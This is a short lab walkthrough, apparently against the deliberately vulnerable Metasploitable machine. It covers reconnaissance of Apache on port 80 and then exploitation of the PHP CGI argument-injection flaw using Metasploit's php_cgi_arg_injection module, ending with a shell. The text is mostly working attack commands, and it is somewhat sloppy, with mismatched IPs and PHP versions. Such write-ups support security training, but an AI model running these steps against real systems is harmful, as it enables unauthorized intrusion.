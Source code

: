 *Exploiting port 80 (Apache)


Through port scan we know that port number 80 is opened. Let us to banner grabbing using netcat and http.


Command:
--------

# nc 192.168.1.4 80
  GET / HTTP/1.0

# http 192.168.0.109


directory bruteforce
------------------------
# dirb http://192.168.1.4

# curl -I http://192.168.0.109

 - Try to gather some more information by accessing the web page (type the Metasploitable IP address and /phpinfo.php in the browser)


Command:
--------
# http://192.168.1.4/phpinfo.php

 - Apache+ PHP, CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection vulnerability. And exploit is available in Metasploit


Reference:
https://www.rapid7.com/db/modules/exploit/multi/http/php_cgi_arg_injection


# searchsploit apache | grep 5.4.2


*Exploitation using MSF

I got the php version is 5.2.4.

search the php_cgi 5.2.4.

# searchsploit php 5.2.4
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 



# msfconsole
# search php_cgi
# exploit/multi/http/php_cgi_arg_injection
# show options
# set RHOSTS 192.168.1.4
# exploit
# sysinfo
# ls

 - Finally!! Exploit has been executed successfully and we got the shell of Metasploitable





